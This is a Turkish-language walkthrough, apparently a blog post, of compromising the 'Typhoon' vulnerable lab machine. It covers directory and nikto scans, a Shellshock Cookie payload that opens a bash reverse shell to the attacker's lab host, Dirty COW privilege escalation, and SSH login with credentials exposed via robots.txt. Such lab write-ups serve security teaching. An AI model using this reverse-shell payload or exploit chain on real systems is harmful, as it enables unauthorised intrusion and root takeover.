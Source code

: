 ```
dirb http://192.168.44.129 -o dirb
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/4.1.png){: .align-center}

```
nikto -host http://192.168.44.129
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/5.png){: .align-center}

Nikto çıktısında merak uyandırıcı birkaç bir şey buldum ve shellshock zafiyetini kurcalamaya karar verdim.

## Shellshock

**Bash, kendisine web uygulaması tarafından yollanan komutları da çalıştırabilmektedir ve shellshock zafiyetinin oluştuğu kısım ise bu özelliğin kötü amaçla kullanılmasıdır.**

/cgi-bin/ klasörü altında bulunan dosya üzerinden bu zafiyet istismar edilebilmektedir. Burp Suite yardımıyla araya girerek isteği yakaladım ve backdoor oluşturacak zararlı kodumu Cookie’ye ekleyerek isteği yolladım.

```
Cookie:() { :;}; echo; /bin/bash -i >& /dev/tcp/192.168.44.128/5555 0>&1
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/6.png){: .align-center}

5555 portunu dinlemeye başladım. İstismar başarıyla sonuçladı ve shell’i aldım.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/7.png){: .align-center}

ssh’da kullandığım exploit çalışmadı biraz araştırmayla [Dirty COW](https://www.exploit-db.com/exploits/40616) adlı başka bir exploit buldum. Exploit’i kendi makineme indirip derlerken hata aldım fakat kullanılabilir durumdaydı bu yüzden hedef makineye çektim. 

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/shellshockgcc.png){: .align-center}

Daha sonra exploit’i çalıştırınca root yetkisini elde ettim.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/shellshockexploit.png){: .align-center}

## robot.txt ve MongoDB

Web Crawler’ların erişmemesi için robot.txt’ye MongoDB dizini eklendiğini gördüm. Böylece MongoDB dizininden haberim oldu ve dizine gittiğimde bazı yararlı bilgilerle karşılaştım.

robot.txt --> ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/8.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/9.png){: .align-center}

ıd:typhoon pw:789456123 bilgilerini kullanarak ssh servisi ile bağlandım. Daha önce kullandığım exploit burda da kullanılabilir durumdaydı ve bahsi geçen exploit yardımıyla root yetkisini aldım.
